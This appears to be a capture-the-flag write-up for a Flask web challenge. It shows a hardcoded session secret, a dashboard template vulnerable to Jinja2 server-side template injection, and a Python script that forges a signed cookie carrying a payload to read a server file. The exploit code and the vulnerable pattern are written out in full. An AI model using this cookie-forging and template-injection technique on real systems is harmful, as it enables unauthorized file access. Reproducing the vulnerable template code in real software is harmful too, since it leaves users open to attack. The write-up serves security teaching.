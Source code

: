 # Rose

## Category
Web

## Description
The owner of the site shut down sign ups for some reason, but we've got a backup of the code.

See if you can get access and get /home/ctf/flag.txt

https://nessus-rose.chals.io/

rose.zip

## Solution

- rose.zip contains the source code of the flask application.
- Running it locally and uncommenting the signup functionality allows creating a new user.
- Using this the structure of the session cookie can be seen

A cookie decoded with [flask-unsign](https://github.com/Paradoxis/Flask-Unsign):
```
flask-unsign -d -c .eJwljjkOQjEMRO-SmiJeEtv_MiiLLSig-EuFuDuR6GaKefM-6R67H4-0nfvlt3R_zrSl0gbxRMVBWXSQRhhxBuyl1sxau7FTm5adYuCsEwirUrj1nkObVlQD7xgwpDtby2wmURTWQgWKmmoRWKDwKCLr0AsTKbduaYlch-9_G1j13V6-4unHmb4_Cv8ydw.ZNTgpw.Q16RikWV_IJT8Kiw3FPcm-vzsFg

{'_fresh': True, '_id': '5ac34d282c3078c38ff934012b5660486b94e3ad90e3fc2d6d132683fe9bb0f8a862891eb2f1c7be49a04997f581e3f87158988571b94fef577c34e543384ab9', '_user_id': '1', 'name': 'test'}
```

The secret to sign the session cookies can be found in `__init__.py`:

```python
app.config['SECRET_KEY'] = 'SuperDuperSecureSecretKey1234!'
```

The template for the dashboard (found in `main.py`) is susceptible to jinja2 template injection with the `name` property in the flask session cookie:
```python
@main.route('/dashboard')
@login_required
def dashboard():
    template = '''
{% extends "base.html" %} {% block content %}
<h1 class="title">
    Welcome, '''+ session["name"] +'''!
</h1>
<p> The dashboard feature is currently under construction! </p>
{% endblock %}
'''
    return render_template_string(template)
```

Python code to generate flask session cookie containing payload to read `/home/ctf/flag.txt`:
```python
#!/usr/bin/env python

from os import chdir, popen
from pathlib import Path


def main():
    target_file = "/home/ctf/flag.txt"

    payload = "'{{get_flashed_messages.__globals__.__builtins__.open(\\'"
    payload += target_file
    payload += "\\').read()}}'"

    cookie = "{'_fresh': True, '_id': '5ac34d282c3078c38ff934012b5660486b94e3ad90e3fc2d6d132683fe9bb0f8a862891eb2f1c7be49a04997f581e3f87158988571b94fef577c34e543384ab9', '_user_id': '1','name':"
    cookie += payload
    cookie += "}"

    cmd = 'flask-unsign --sign --cookie "'
    cmd += cookie
    cmd += "\" --secret 'SuperDuperSecureSecretKey1234!'"

    cookie = popen(cmd).read()

    print(cookie)
    print(popen("flask-unsign --decode --cookie " + cookie).read())  # sanity check


if __name__ == "__main__":
    chdir(Path(__file__).parent.resolve())
    main()
```

Setting the resulting cookie and visiting the dashboard returns the contents of `/home/ctf/flag.txt`

```
flag{wh4ts_1n_a_n4m3_4nd_wh4ts_in_y0ur_fl4sk}
```
